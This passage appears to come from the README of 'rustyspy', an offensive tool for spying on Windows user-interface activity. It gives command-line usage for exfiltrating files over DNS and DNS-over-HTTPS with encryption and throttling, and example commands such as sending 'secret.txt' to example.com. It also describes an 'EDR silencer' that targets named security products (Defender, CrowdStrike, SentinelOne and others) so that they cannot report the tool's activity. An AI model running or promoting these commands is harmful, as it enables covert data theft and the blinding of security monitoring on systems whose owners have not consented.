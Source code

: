### 2. Data Exfiltration Mode

```bash
rustyspy exfil <file> <domain> <password> [OPTIONS]

Arguments:
  <file>     File to exfiltrate
  <domain>   Target domain name
  <password> Encryption password

Options:
  --base32                  Use base32 encoding instead of base64
  --throttle <MS>          Delay between requests in milliseconds
  --request-size <SIZE>    Maximum DNS request size (default: 255)
  --label-size <SIZE>      Maximum DNS label size (default: 63)
  --doh-provider <PROVIDER> DNS over HTTPS provider (google/cloudflare)
  --dns-server <SERVER>    Custom DNS server
```

### Examples

1. Monitor a specific window and log events:
```bash
rustyspy spy -w "Notepad" -l events.log
```

2. Monitor a process with EDR blocking:
```bash
rustyspy spy -p 1234 --block-edr
```

3. Exfiltrate data using DNS:
```bash
rustyspy exfil secret.txt example.com mypassword --base32 --throttle 1000
```

## How It Works

### UI Automation Monitoring
The tool leverages Microsoft's UI Automation (UIA) framework to:
1. Attach to specified windows/processes
2. Register event handlers for various UI events
3. Process and log events in real-time
4. Apply application-specific handlers for enhanced monitoring

### EDR Silencer
The EDR (Endpoint Detection and Response) silencer is a sophisticated component that prevents security tools from detecting and reporting the tool's activities:

1. **Process Detection**
   - Maintains a comprehensive list of known EDR processes including:
     - Microsoft Defender (MsMpEng.exe)
     - CrowdStrike (csfalcon.exe, csshell.exe)
     - SentinelOne (SentinelAgent.exe)
     - Cylance (CylanceSvc.exe, CylanceUI.exe)
     - Tanium (TaniumClient.exe, TaniumCX.exe)
     - Elastic EDR (elastic-endpoint.exe)
     - And many others
